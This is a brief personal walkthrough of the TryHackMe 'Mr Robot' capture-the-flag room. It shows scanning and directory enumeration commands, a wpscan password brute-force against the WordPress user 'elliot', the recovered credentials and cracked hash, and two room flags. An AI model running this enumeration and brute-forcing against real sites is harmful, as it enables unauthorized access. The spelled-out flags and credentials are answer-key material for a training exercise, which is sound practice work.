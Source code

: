 # Matheus Jesus 10-04-2020

## Try Hack Me - [MR Robot](https://tryhackme.com/room/mrrobot)

### VPN IP 10.9.5.234
### IP 10.10.77.104

#### nmap

found http server on 80 and 443

#### GOBUSTER

gobuster dir -u http://10.10.77.104:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

found a couple of useful directories

/readme
/robots

```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```

by running /fsocity.dic -> found a dictionary (maybe used for cracking)
by runnning /key-1-of-3.txt -> found the first key 073403c8a58a1f80d943455fb30724b9

#### NIKTO

run nikto -h 10.10.77.104

#### wpscan

wpscan --url 10.10.77.104 --enumerate vp

#### wp-admin

try login on wordpress

admin:admin -> invalid username
elliot:admin -> invalid password

try bruteforce with dictionary

wpscan --url 10.10.77.104 -P fsocity.dic --usernames elliot

##### Stupid dictionary has ER28-0652 on last item

elliot:ER28-0652

##### CRACK MD5

on /home/robot md5 file
robot:c3fcd3d76192e4007dfb496cca67e13b

abcdefghijklmnopqrstuvwxyz

cat key-2-
822c73956184f694993bede3eb39f959

#### PRIVILEGE ESCALATION

NOT DONE
cd /root
